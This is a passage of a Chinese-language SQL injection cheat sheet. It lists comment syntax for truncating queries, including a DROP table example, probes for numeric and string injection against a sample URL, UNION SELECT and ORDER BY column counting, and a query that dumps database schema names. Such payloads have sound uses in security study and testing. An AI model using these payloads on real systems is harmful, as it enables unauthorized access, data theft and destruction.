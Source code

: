 ## 注释
### 行间注释
+ -- -  (--后面有个空格)
	+ DROP sampletable;--
+ #
	+ DROP sampletable;#
+ \` (反引号)

### 行内注释
+ /\* \*/
	+DROP/\* 内容 \*/sampletable;
+ /\*! 语句  \*/
	+  /\*! select \* from test \*/
	+ 语句会被执行

# 0x02 注入技术
## 判断是否存在注入
假设有: www.test.com/chybeta.php?id=1
### 数值型注入
```
chybeta.php?id=1+1
chybeta.php?id=-1 or 1=1
chybeta.php?id=-1 or 10-2=8
chybeta.php?id=1 and 1=2
chybeta.php?id=1 and 1=1
```
### 字符型注入
参数被引号包围，我们需要闭合引号。
```
chybeta.php?id=1'
chybeta.php?id=1"
chybeta.php?id=1' and '1'='1
chybeta.php?id=1" and "1"="1
```

## 联合查询
### 查询列数
用UNION SELECT注入时，若后面要注出的数据的列与原数据列数不同，则会失败。所以需要先猜解列数。
#### UNION SELECT
```
UNION SELECT 1,2,3 #
UNION ALL SELECT 1,2,3 #
UNION ALL SELECT null,null,null #
```
#### ORDER BY
利用二分法
```
ORDER BY 10 #
ORDER BY 5  #
ORDER BY 2  #
....
```
### 查询数据库
```
UNION SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA #
```